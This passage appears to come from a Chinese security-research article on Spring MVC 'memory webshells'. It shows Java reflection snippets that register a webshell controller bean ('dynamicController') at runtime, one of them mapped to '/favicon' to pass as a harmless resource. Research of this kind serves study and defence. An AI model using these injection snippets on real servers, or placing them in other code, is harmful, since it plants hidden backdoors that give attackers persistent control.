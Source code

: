 
该方法接受 urlPath参数和 handler参数，可以在 this.getApplicationContext\(\) 获得的上下文环境中寻找名字为 handler 参数值的 bean, 将 url 和 controller 实例 bean 注册到 handlerMap 中。

相关示例代码和解释如下：

```text
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/favicon", "dynamicController");
```

**方法三**：detectHandlerMethods

参考上面的 HandlerMapping 接口继承关系图，针对使用 RequestMappingHandlerMapping 映射器的应用，可以找到它继承的顶层类

```text
org.springframework.web.servlet.handler.AbstractHandlerMethodMapping
```

进入查看代码，发现其中有一个detectHandlerMethods 方法，代码如下：

```text
protected void detectHandlerMethods(Object handler) {
    Class<?> handlerType = handler instanceof String ? this.getApplicationContext().getType((String)handler) : handler.getClass();
    final Class<?> userType = ClassUtils.getUserClass(handlerType);
    Set<Method> methods = HandlerMethodSelector.selectMethods(userType, new MethodFilter() {
        public boolean matches(Method method) {
            return AbstractHandlerMethodMapping.this.getMappingForMethod(method, userType) != null;
        }
    });
    Iterator var6 = methods.iterator();
    while(var6.hasNext()) {
        Method method = (Method)var6.next();
        T mapping = this.getMappingForMethod(method, userType);
        this.registerHandlerMethod(handler, method, mapping);
    }
}
```

该方法仅接受handler参数，同样可以在 this.getApplicationContext\(\) 获得的上下文环境中寻找名字为 handler 参数值的 bean, 并注册 controller 的实例 bean。

示例代码如下：

```text
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```
